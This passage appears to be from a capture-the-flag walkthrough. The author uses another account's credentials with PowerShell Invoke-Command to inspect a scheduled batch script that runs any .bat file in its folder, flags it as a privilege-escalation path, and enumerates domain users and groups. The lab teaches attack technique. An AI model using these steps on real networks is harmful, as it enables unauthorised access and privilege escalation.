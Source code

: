 With `awallace`'s authorization, I can access to `C:\Program Files\keepmeon\'.
There's a single `bat` script in it.

```powershell
PS C:\Users\jmorgan\Documents> Invoke-Command atsserver -ConfigurationName dc_manage -Credential $cred -ScriptBlock { ls 'C:\Program Files\keepmeon' }
Invoke-Command atsserver -ConfigurationName dc_manage -Credential $cred -ScriptBlock { ls 'C:\Program Files\keepmeon' }

    Directory: C:\Program Files\keepmeon

Mode       LastWriteTime       Length Name           PSComputerName
-----------------------------------------------------------------------
-a----     21/12/2021 14:57    128    keepmeon.bat   atsserver       
```

Given the mention of `Lois` which is mentioned on MS word file as a only administrator, I think this will be the link to next privesc vector.
Also, it says the script runs every 5 minutes.
It’s simply looping over any `.bat` files in this directory, and if they aren’t this one, running them. The comment says it runs every five minutes, and it’s for Lois.

```powershell
PS C:\Users\jmorgan\Documents> Invoke-Command atsserver -ConfigurationName dc_manage -Credential $cred -ScriptBlock { cat 'C:\Program Files\keepmeon\keepmeon.bat' }

REM This is run every 5 minutes. For Lois use ONLY
@echo off
 for /R %%x in (*.bat) do (
 if not "%%x" == "%~0" call "%%x"
)
```

Here's user and group lists.
I can see `Site_Admin` is on the group list which is mentioned on MS word.

```powershell
PS C:\Users\jmorgan\Documents> Invoke-Command atsserver -ConfigurationName dc_manage -Credential $cred -ScriptBlock { net user /domain }
Invoke-Command atsserver -ConfigurationName dc_manage -Credential $cred -ScriptBlock { net user /domain }

User accounts for \\

-------------------------------------------------------------------------------
Administrator            awallace                 chall                    
edavies                  Guest                    imonks                   
jmorgan                  krbtgt                   lhopkins                 
The command completed with one or more errors.

PS C:\Users\jmorgan\Documents> Invoke-Command atsserver -ConfigurationName dc_manage -Credential $cred -ScriptBlock { net group /domain }
Invoke-Command atsserver -ConfigurationName dc_manage -Credential $cred -ScriptBlock { net group /domain }

Group Accounts for \\

-------------------------------------------------------------------------------
*Cloneable Domain Controllers
*DnsUpdateProxy
*Domain Admins
*Domain Computers
*Domain Controllers
*Domain Guests
*Domain Users
*Enterprise Admins
*Enterprise Key Admins
```